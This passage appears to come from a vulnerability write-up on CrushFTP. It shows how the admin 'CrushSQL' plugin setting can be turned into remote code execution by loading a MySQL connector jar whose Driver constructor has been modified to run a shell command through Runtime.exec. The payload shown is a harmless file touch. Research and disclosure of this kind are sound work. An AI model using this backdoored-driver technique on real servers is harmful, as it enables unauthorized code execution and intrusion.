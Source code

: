 
## Leveraging to RCE

There was also a vague mention of how this vulnerability can open certain avenues to perform RCE. I walked through the application from the admin session to find if there is any specific functionalities which may let us achieve code execution. One of such functionalities was 

Preferences → Plugins → CrushSQL

![Untitled](/img/CrushFTP/Untitled_6.png)

I tried to compile a jar file by having a `Main.class` file in it with the `Driver` as the public class name but it returned following error:

> `java.lang.ClassCastException`: class Main cannot be cast to class `java.sql.Driver` (Main is in unnamed module of loader `java.net.URLClassLoader @62f16978; java.sql.Driver` is in module `java.sql` of loader 'platform')
> 

![Untitled](/img/CrushFTP/Untitled_7.png)

The error occurs because the class `Driver` is being incorrectly cast to the interface `java.sql.Driver`, suggesting an attempt to use `Driver` as a JDBC driver, which it is not, leading to a `ClassCastException`.

So in order to keep things simple, I downloaded the [mysqlconnector jar](https://repo1.maven.org/maven2/mysql/mysql-connector-java/5.0.4/mysql-connector-java-5.0.4.jar) file and then decompressed the jar file and then changed the `Driver.class` by adding my own code and then recompiled the `.java` file to `class`

```shell
ζ cat org/gjt/mm/mysql/Driver.java                                                                                                                                                                                  
ackage org.gjt.mm.mysql;

import java.io.IOException;
import java.sql.SQLException;

public class Driver extends com.mysql.jdbc.Driver {
    public Driver() throws SQLException {
        super(); // Call the constructor of the superclass

        // Your additional code here
        String cmd = "touch /tmp/curshftp_pwned";
        try {
            Process process = Runtime.getRuntime().exec(cmd);
            process.waitFor();
        } catch (IOException | InterruptedException e) {
            // Handle the exception as needed
            e.printStackTrace();
        }
    }
}
                                                                                                                                                                                                   
ζ javac org/gjt/mm/mysql/Driver.java                                                                                                                                                                                
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Note: org/gjt/mm/mysql/Driver.java uses or overrides a deprecated API.
Note: Recompile with -Xlint:deprecation for details.

```
